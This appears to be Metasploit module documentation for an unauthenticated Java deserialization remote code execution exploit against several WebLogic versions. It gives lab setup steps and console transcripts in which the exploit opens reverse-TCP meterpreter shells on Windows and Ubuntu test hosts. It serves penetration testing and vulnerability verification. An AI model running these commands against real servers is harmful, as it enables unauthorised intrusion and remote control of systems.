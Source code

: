 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized `BadAttributeValueExpException` object
  over the T3 protocol to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).
  
### Installation

  Some version of Java 8 JDK is required to be installed on the server.
  This module has been tested successfully using jdk8u202 and [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).
  
  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).
  
  On step 10 of the installation instructions, keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, then click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

- [ ] Install the application
- [ ] Start msfconsole
- [ ] Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
- [ ] Do: ```set RHOSTS <ip>```
- [ ] Do: ```run```
- [ ] You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Ubuntu 18.04 Linux
  
  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
